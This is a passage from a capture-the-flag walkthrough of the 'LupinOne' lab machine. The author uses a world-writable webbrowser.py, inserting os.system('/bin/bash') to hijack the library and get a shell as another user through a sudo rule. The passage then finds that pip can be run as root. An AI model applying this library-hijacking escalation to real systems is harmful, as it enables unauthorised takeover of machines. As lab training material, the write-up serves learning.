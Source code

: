 ```
icex64@LupinOne:~$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
Its not yet ready to get in action
```

I try to read the .py file:

```
icex64@LupinOne:~$ cat /home/arsene/heist.py 
import webbrowser

print ("Its not yet ready to get in action")

webbrowser.open("https://empirecybersecurity.co.mz")
```

It imports 'webbrowser' and uses function 'open'. I check this file to see if I can do library injection:

```
icex64@LupinOne:~$ ls -la /usr/lib/python3.9/webbrowser.py 
-rwxrwxrwx 1 root root 24115 Nov  3 19:18 /usr/lib/python3.9/webbrowser.py
```

I can edit it, so I run 'nano /usr/lib/python3.9/webbrowser.py', add the following in the first line of the 'open' function:

```
os.system('/bin/bash')
```

And then run the command as 'arsene' again to get an 'arsene' shell:

```
icex64@LupinOne:~$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
Its not yet ready to get in action
arsene@LupinOne:/home/icex64$ 
```

I run 'sudo -l' as 'arsene' and get the following:

```
arsene@LupinOne:~$ sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```

I then check for 'pip' in gtfobins and find the following:

![empire lupin one 5](./images/empire-lupin-one-5.png)
